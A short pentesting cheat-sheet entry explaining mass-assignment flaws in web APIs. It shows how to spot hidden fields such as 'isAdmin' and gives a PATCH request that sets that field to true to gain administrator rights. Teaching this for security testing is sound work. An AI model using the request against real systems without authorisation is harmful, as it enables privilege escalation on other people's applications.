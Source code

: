 # Mass Assignment

Mass assignment (also known as auto-binding) can inadvertently create hidden parameters. It occurs when software frameworks automatically bind request parameters to fields on an internal object. Mass assignment may therefore result in the application supporting parameters that were never intended to be processed by the developer.



## Identifying hidden parameters

Since mass assignment creates parameters from object fields, you can often identify these hidden parameters by manually examining objects returned by the API.

Try to get object's information from the GET API endpoints.

```
GET /api/users/123
{
    "id": 123,
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "false"
}
```



## Testing mass assignment

Try to change the method to `POST` or `PATCH /api/users/` request, which enables users to update their username and email, and includes the following JSON adding the `isAdmin` parameter to true:

```
PATCH /api/users/
{
    "id": "123",
    "email": "pwned@example.com",
    "isAdmin": true
}
```

If it works, we are now administror of the page.

